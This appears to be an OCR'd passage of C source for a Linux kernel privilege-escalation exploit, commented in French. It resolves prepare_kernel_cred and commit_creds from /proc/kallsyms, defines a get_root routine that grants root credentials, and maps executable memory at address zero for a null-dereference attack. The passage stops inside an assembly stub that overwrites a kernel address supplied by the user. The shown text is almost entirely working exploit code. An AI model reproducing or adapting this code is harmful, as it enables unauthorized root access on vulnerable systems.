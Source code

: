 	void get_root() {
	  if (commit_creds && prepare_kernel_cred)
	    commit_creds(prepare_kernel_cred(0));
	}
	 
	unsigned long get_kernel_sym(char *name)
	{
	  FILE *f;
	  unsigned long addr;
	  char dummy;
	  char sname[256];
	  int ret = 0;
	 
	  f = fopen("/proc/kallsyms", "r");
	  if (f == NULL) {
	    printf("[-] Failed to open /proc/kallsyms\n");
	    exit(-1);
	  }
	  printf("[+] Find %s...\n", name);
	  while(ret != EOF) {
	    ret = fscanf(f, "%p %c %s\n", (void **)&addr, &dummy, sname);
	    if (ret == 0) {
	      fscanf(f, "%s\n", sname);
	      continue;
	    }
	    if (!strcmp(name, sname)) {
	      fclose(f);
	      printf("[+] Found %s at %lx\n", name, addr);
	      return addr;
	    }
	  }
	  fclose(f);
	  return 0;
	}
	
	int main(int ac, char **av)
	{
		if (ac != 2) {
			printf("./exploit kernel_offset\n");
			printf("exemple = 0xffffffff83a1be6c");
			return EXIT_FAILURE;
		}
	
		// 2 - Appel de la fonction get_kernel_sym pour rcuperer dans le /proc/kallsyms les adresses des fonctions
		prepare_kernel_cred = (prepare_kernel_cred_t)get_kernel_sym("prepare_kernel_cred");
		commit_creds = (commit_creds_t)get_kernel_sym("commit_creds");
		// have_canfork_callback offset <= rendre dynamique aussi
		
		pid_t     pid;
		/* siginfo_t info; */
	
		// 1 - Mapper la mmoire  l'adresse 0x0000000000000000
		printf("[+] Try to allocat 0x00000000...\n");
		if (mmap(0, 4096, PROT_READ|PROT_WRITE|PROT_EXEC,MAP_ANON|MAP_PRIVATE|MAP_FIXED, -1, 0) == (char *)-1){
			printf("[-] Failed to allocat 0x00000000\n");
			return -1;
		}
		printf("[+] Allocation success !\n");
		/* memset(0, 0xcc, 4096); */
	/*
	movq rax, 0xffffffff83a1be6c
	movq [rax], 0
	mov rax, 0x4242424242424242
	call rax